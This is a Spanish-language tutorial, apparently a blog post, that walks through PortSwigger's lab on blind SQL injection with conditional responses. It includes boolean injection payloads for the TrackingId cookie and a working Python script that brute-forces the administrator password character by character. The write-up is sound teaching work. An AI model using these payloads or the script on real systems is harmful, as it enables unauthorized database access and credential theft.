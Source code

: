 ```yaml
---
title: Blind SQL Injection - Conditional Response
date: '2023-04-24'
tags: ['HACKING', 'SQL', 'SQL INJECTION', 'PYTHON', 'WEB']
draft: false
summary: Aplicando una inyección seremos capaces de hacerle preguntas de respuesta binaria a la base de datos, preguntas que tengan como respuesta un “Sí” o un “No”. Si somos capaces de hacer las preguntas correctas seremos capaces de extraer información de la base de datos aplicando fuerza bruta.
images: ['/static/images/sqli-conditional-response/blind-sqli-conditional-twitter-card.png']
---
```


![Query param](/static/images/sqli-conditional-response/blind-sqli-conditional-twitter-card.png)

## Tabla de contenidos

1. [Introducción](#introduccion)
2. [Concepto del ataque](#concepto)
3. [Explotado la vulnerabilidad en el laboratorio](#explotando)  
   3.1 [Automatización del ataque](#automatizando)

<a name="introduccion"/>
## Introducción

En este articulo veremos como explotar un SQL Injection (SQLi) a ciegas, el hecho de que sea a ciegas significa que no podremos visualizar directamente datos en la página web, como sí lo hacíamos con el SQLi UNION Attack. Hay varios tipos de inyecciones a ciegas, en este caso, vamos a estar explotando una inyección de respuesta condicional.

Antes de seguir leyendo, si nunca antes has explotado un SQLi UNION Attack ([https://naker-dev.vercel.app/blog/sql-injection-union-attack](https://naker-dev.vercel.app/blog/sql-injection-union-attack)) te recomiendo que empieces por ahí ya que entenderás mejor las inyecciones a ciegas.

Para hacer más visual el articulo usaremos uno de los laboratorios de PortSwigger ([https://portswigger.net/](https://portswigger.net/)) concretamente el laboratorio **[Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses).**

<a name="concepto"/>
## Concepto del ataque

En muchas ocasiones la inyección SQL no reflejará los datos de la BD en la página web, ni tampoco romperá la ejecución de la web (un error 500), simplemente la aplicación se comportará de forma diferente en función de si la consulta que inyectemos se resuelve como verdadera o como falsa. De ahí el nombre de inyección de respuesta condicional.

Aplicando una inyección seremos capaces de hacerle preguntas de respuesta binaria a la base de datos, preguntas que tengan como respuesta un “Sí” o un “No”. Si somos capaces de hacer las preguntas correctas seremos capaces de extraer información de la base de datos aplicando fuerza bruta.

Como ejemplo ilustrativo, podríamos preguntarle a la BD: _¿La contraseña del usuario ‘administrator’ empieza por la letra ‘a’?_ En caso de que la respuesta sea afirmativa ya sabríamos la primera letra de la contraseña, de forma iterativa podríamos seguir preguntando por el resto de posiciones hasta finalmente obtener la contraseña completa.

La forma en la que veremos la respuesta de la BD (si la respuesta es “Sí” o “No”) pueden ser varías:

- Renderizar o no un texto en la web
- Renderizar o no una sección entera (la cabecera, el píe de la web, el menú de usuario, etc)
- Cargar o no una cookie
- Guardar o no una clave en el _localStorage/sessionStorage_
- …

La forma de poder determinar si la respuesta a la inyección es un “Sí” o un “No” pueden ser varías y a cada caso diferente, deberemos indagar manualmente para poder determinar que comportamiento de la web nos dará la respuesta de la inyección. En el ejemplo que explotaremos posteriormente quedará más claro este concepto.

<a name="explotando"/>
## Explotado la vulnerabilidad en el laboratorio

Previa explotación, debemos saber que el laboratorio nos da la estructura de las tablas de la BD para no tener que sacarlas por fuerza bruta. Sabemos que existe una tabla llamada `Users` que contiene un usuario llamado `adminitrator`. Toda está información podríamos extraerla nosotros mismos pero nos llevaría bastante tiempo.

La inyección en este caso la haremos sobre un campo de la _cookie._ El campo _trackingId_ es vulnerable a SQLi.

Si nos fijamos en la web veremos un texto: “Welcome back!”:

![Query param](/static/images/sqli-conditional-response/1.png)

Si inyectamos una consulta que se resuelva como verdadera, como por ejemplo:

`n2fI6yGTKRibLzj8' AND 1=1 -- -`

![Query param](/static/images/sqli-conditional-response/2.png)

El texto “Welcome back!” sigue siendo visible:

En caso de inyectar una consulta que se resuelva como falsa dejaremos de ver el texto:

`n2fI6yGTKRibLzj8' AND 1=2 -- -`

![Query param](/static/images/sqli-conditional-response/3.png)

¡Hemos encontrado una forma de interpretar las respuestas “Sí”/“No” por parte de nuestra BD!

Teniendo en cuenta que el objetivo del laboratorio es extraer la contraseña del usuario `administrator` podemos generar un _payload_ para inyección SQL que le pregunte a la BD algo como _¿La contraseña del usuario ‘administrator’ empieza por la letra ‘a’?_

La sentencia SQL a inyectar quedaría algo así:

`n2fI6yGTKRibLzj8' AND (SELECT substring(password, 1, 1) FROM users WHERE username LIKE 'administrator') = 'a' -- -`

En caso de que la respuesta se resuelva como afirmativa veremos el texto “Welcome back!” en la pantalla, de lo contrario no lo veremos. De esta forma somos capaces de terminar de qué caracteres se compone la contraseña, iterando por cada posición del campo.

**Hay que tener en cuenta que estamos haciendo las pruebas sobre una BD PostgreSQL, por eso usamos la función `substring` para extraer un carácter de una posición concreta del campo. En caso de ser otro motor de BD habría que adaptar esta parte de la consulta.**

<a name="automatizando"/>
### Automatización del ataque

Sería una locura intentar sacar por fuerza bruta todos los caracteres de la contraseña de forma manual por lo que haremos un pequeño script que automatice el ataque e itere sobre todos las posiciones de la contraseña probando diferentes caracteres que definiremos en un diccionario.

El script en este caso lo he hecho en Python:

```python
import requests
import string

dictionary = string.ascii_lowercase + string.digits #[a-z0-9]
url = "https://0a4400f7035bc8938449ae2700620002.web-security-academy.net/filter?category=Gifts"
trackingId = "UXenCJxCQPYRW0EV"
session = "BHLKJiOKcd68WYjIyaXpzlTPMNdTPnnh"

def bruteForce(password_index):
	for char in dictionary:
		cookies = {
			"TrackingId": f"{trackingId}' AND (SELECT substring(password, {password_index}, 1) FROM users WHERE username LIKE 'administrator') = '{char}' -- -",
			"session": f"{session}"
		}
		r = requests.get(url=url, cookies=cookies)
		body = r.text
		if "Welcome back!" in body:
			return char
	return -1

def main():
	is_running=True
	password=""
	password_index = 1
	while(is_running):
		discovered_char = bruteForce(password_index)
		if(discovered_char == -1):
			is_running=False
			break
		password = password + discovered_char
		password_index = password_index + 1
		print(password)

if __name__ == "__main__":
	main()
```

En este caso usamos un diccionario que contiene letras minúsculas de las a a la z y números del 0 al 9. Habría que adaptar el diccionario según el caso concreto.

El resultado del script vendría a ser algo similar a esto:

![Query param](/static/images/sqli-conditional-response/4.png)

La contraseña debería ser el último output del script `rqjydfesdyw9t5v07n2l`. Cabe destacar que el script se podría limpiar y mejorar para que no arroje tanta información incompleta pero para el caso nos vale de sobra.

¡Solved!

![Query param](/static/images/sqli-conditional-response/5.png)

Gracias por leer.
